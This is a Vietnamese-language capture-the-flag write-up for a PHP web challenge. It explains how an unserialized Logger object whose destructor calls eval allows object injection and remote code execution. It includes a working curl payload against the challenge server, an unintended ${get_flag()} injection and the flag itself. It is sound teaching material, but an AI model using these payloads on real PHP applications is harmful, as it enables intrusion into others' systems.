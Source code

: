 ## Fortnight challenge 2022: OOPs (Object oriented programming - supreme)

![warmup category](https://img.shields.io/badge/Category-web-brightgreen.svg)  
![score](https://img.shields.io/badge/Score_after_CTF-200-blue.svg)  
![author](https://img.shields.io/badge/Author-Hai%20Le%238679-blue.svg)  
![solves](https://img.shields.io/badge/Solves-25-lightgrey.svg)

### Description
Have you ever heard of OOP? Making the code works is one thing, making it maintainable is another thing lol. Just look at my perfectly-designed-OOP code and learn.

### Hints
- none

### Attached files
[index.php](https://github.com/compsec-hcmus/hcmus-wu/raw/main/write-up/Fortnight%20Challenge%202022/Web%20exploitation/OOPS/index.php)

### Summary
> Giới thiệu về **object injection in php**

### Detailed solution
Nhìn sơ qua thì trang web này đã setup khá cồng kềnh chỉ để làm 1 việc là in ra những gì mà mình đã nhập vào. Cách hoạt động sẽ diễn ra như sau:
1. Người dùng nhập nội dung vào `input`, hàm `handleSend` sẽ tạo ra 1 `serialized` object và base64 encode, sau đó reload lại trang web kèm với param `?msg=<encoded>`
2. Trang web nhận param `msg` và giải mã thành 1 object, sau đó lấy nội dung của `msg["content"]` và tạo 1 object `Logger`, khởi tạo attribute `$command = 'echo ("' . $message . '");'`
3. Class `Logger` được khai báo hàm `_destruct`, luôn được gọi khi object bị deallocate, bên trong hàm `_destruct` sẽ gọi `eval($this->command)`.
4. Nếu quá trình deserialize có vấn đề, 1 object `Logger` khác sẽ được gọi để in ra "Oops, something happened".
5. Khi đoạn code chạy hoàn tất, object `Logger` được khởi tạo sẽ bị deallocate, gọi hàm `_destruct` và in ra input mà bạn đã nhập.

Vấn đề ở quá trình này đó là thay vì nhận string `input`, trang web lại nhận về 1 serialized object *có vẻ như* là một object chứa `content` là input của người dùng. Cách làm này mở ra một phương pháp exploit gọi là `object injection`.

Bởi vì hàm `unserialize` có thể giữ nguyên cấu trúc của 1 object tương ứng với 1 class nào đó, chúng ta có thể truyền một serialized object của class `Logger`. Và vì attribute của class này là 1 câu lệnh để gọi trong hàm `eval`, chúng ta cũng hoàn toàn có thể kiểm soát những gì xảy ra trong hàm này, dẫn tới lỗi RCE. 

Vậy nên phương pháp để giải challenge này đó là khai báo class `Logger` giống như trên web, tạo 1 object tương ứng và lưu giá trị `$command` của nó thành `get_flag();`, `serialize` và `base64_encode` để gửi cho server. Tuy nhiên, vì code đã mặc định coi serialized object là `Array`, vậy nên, object cần gửi sẽ phải là 1 array có chứa object `Logger`.

```bash
> curl "http://103.245.249.107:35001/?msg=$(echo 'a:1:{i:0;O:6:"Logger":1:{s:7:"command";s:11:"get_flag();";}}' | base64 --wrap=0)"

<html>
  <head>
    <title>Object oriented programming - supreme</title>
    <link rel="stylesheet" href="static/style.css">
  </head>

  <body>
    <h1>Message echo-er</h1>
    <h3>Repeats the messages you want to send to yourself.</h3>
    <div class="container">
      <div id="form" class="content">
        <h2>Send your messages here:</h2>
        <input id="message" type="text" placeholder="your message">
        <button onclick="handleSend()">
          Send!
        </button>
      </div>
      <div class="message">
        <h2>Your message</h2>
              </div>
    </div>

    <script>
      function handleSend() {
        const elem = document.getElementById("message");
        const message = elem.value;
        serialized_obj = `a:1:{s:7:"content";s:${message.length}:"${message}";}`;

        console.log(serialized_obj, btoa(serialized_obj));

        document.location = document.location.origin + "?msg=" + btoa(serialized_obj);
      }
    </script>
  </body>
</html>You sent the message: f0rtn1ght{a5_l0ng_As_1t_w0rk5}
```

### Note
Vì người ra đề này vẫn còn non tay nên đã không restrict kĩ hơn, cho phép mọi người tùy ý RCE challenge này, vậy nên mình rất cảm ơn các bạn tham gia đã không làm sập trang web 🙏

Ngoài ra, việc ghép `'echo ("' . $message . '");'` như thế này cũng cho phép RCE mà không cần object injection vì bạn vẫn có thể gọi bất cứ hàm nào bằng cách sử dụng tính năng [string parsing](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing) của php. Nên uninteded sol của bài là chỉ cần nhập `${get_flag()}` là bạn vẫn có thể lấy được flag.

Mong các bạn thứ lỗi

### Flag
```
f0rtn1ght{a5_l0ng_As_1t_w0rk5}
```
